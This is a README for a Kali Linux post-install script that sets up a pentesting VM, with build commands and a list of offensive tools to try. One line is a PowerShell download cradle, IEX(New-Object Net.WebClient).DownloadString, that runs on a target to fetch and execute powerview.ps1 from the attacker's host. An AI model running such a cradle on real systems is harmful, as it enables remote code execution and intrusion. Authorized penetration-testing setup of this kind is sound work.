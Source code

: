 # Kali-Clean

![screenshot](./images/screenshot.png?raw=true)

[xct/kali-clean](https://github.com/xct/kali-clean) with personal tweaks and borrowed ideas from [islanddog/kali-clean-pwnbox](https://github.com/islanddog/kali-clean-pwnbox).

This post-installation script is intended to be used on minimal Kali VM with no tools. I used [the official VM build script](https://gitlab.com/kalilinux/build-scripts/kali-vm) with the following options to get started. It should still work fine on a bare metal installation.

```
./build.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"
```

If you are building on a Windows machine:

- you will need WSL2
- install docker in WSL2

```
# confirm you are running WSL2
wsl --version

# start the docker service
sudo systemctl start docker

# continue building your kali VM
./build-in-container.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# copy from WSL to your Windows host (eg. Downloads folder)
cp -r images/kali-linux-rolling-vmware-amd64.vmwarevm /mnt/c/Users/<USER>/Downloads
```

## Installation

```
sudo -sE ./install.sh 2>install.err
```

## QoL Improvements vs default Kali
- Built in cheatsheets using [Navi](https://github.com/denisidoro/navi)
```
navi --print
# alias is 'n'
n
```
- Windows binaries symlinked into Apache webroot
```
# binaries located in /var/www/html/win/
sudo systemctl start apache2
# on target
IEX(New-Object Net.WebClient).DownloadString("http://<LHOST>/win/powerview.ps1")
```
- Modularity: Optional install scripts in `kali-clean/optional_installs/`
```
# example: you want to install python2 for legacy python exploits
# reference: https://www.kali.org/docs/general-use/using-eol-python-versions/
# simply run the following script from the optional_installs folder
./install_python2.sh
```
- IP address of `tun0` is displayed, no need to run `ip a` everytime
- Better firefox profile: Removed default bookmarks, added useful extensions (eg. foxyproxy) and made restore tabs on startup the default.

## TODOs

- test rust apps: rustscan navi
- test new nvim install method to see if its still working because kali removed it from its official repo
- [AD] https://github.com/eladshamir/Whisker
- [AD] https://github.com/ropnop/kerbrute
- Bloodhound to Bloodhound CE https://blog.spookysec.net//Deploying-BHCE/
- CrackMapExec to NetExec https://github.com/Pennyw0rth/NetExec
- Ligolo-ng as alternative to chisel https://github.com/nicocha30/ligolo-ng

## Checkout
Below are things I will get around to trying and will add them to the install script if I find them useful.
- https://github.com/Flangvik/SharpCollection
- https://github.com/bohops/GhostBuild
- https://github.com/AdrianVollmer/PowerHub
- https://github.com/BeichenDream/GodPotato
- https://github.com/antonioCoco/RunasCs
- Note: If using GodPotato, it's easier to create a new admin user and switch to them with RunasCs.

## Credit
- https://github.com/AyoItsYas/Mainte
